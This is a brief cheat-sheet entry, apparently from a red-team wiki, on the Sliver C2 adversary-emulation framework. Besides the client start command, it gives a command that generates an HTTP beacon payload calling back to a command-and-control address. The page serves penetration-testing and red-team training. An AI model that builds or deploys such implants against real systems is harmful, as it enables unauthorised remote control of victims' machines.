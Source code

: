 # Sliver C2

{% @github-files/github-code-block %}

Sliver is an open source cross-platform adversary emulation/red team framework.&#x20;

### Usage

Connect to sliver server:

```
sliver
```

Create new beacon:

```
generate beacon --http 10.10.10.10:443 --save ~/payload.exe
```
